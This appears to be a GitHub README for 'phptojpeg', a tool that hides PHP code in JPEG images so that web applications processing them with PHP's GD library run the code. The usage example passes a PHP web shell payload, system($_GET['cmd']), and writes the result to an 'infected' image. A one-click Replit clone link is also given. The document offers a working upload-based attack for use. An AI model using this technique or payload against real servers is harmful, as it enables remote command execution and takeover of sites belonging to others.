 # phptojpeg
Injects php payloads into jpeg images. 

# Use Case
You have a web application that runs a jpeg image through PHP's GD graphics library.

# Description
This script injects PHP code into a specified jpeg image. The web application will execute the payload if it interprets the image. Make sure your input jpeg is uncompressed!

# Clone on replit
[![Run on Repl.it](https://replit.com/badge/github/tucommenceapousser/trkn-php-injector)](https://replit.com/new/github/tucommenceapousser/trkn-php-injector)

# Usage
`phptojpeg [JPEG] [PAYLOAD] [OUTPUT_JPEG]`

e.g. `phptojpeg cat.jpeg '<?php system($_GET["cmd"]);?>' infected_cat.jpeg`

# How it works
PHP code is injected in the null/garbage (brown) space after the scan header:

![header](./app.jpeg "scan header")

The new infected jpeg is run through PHP's gd-library. PHP interprets the payload injected in the jpeg and executes it.
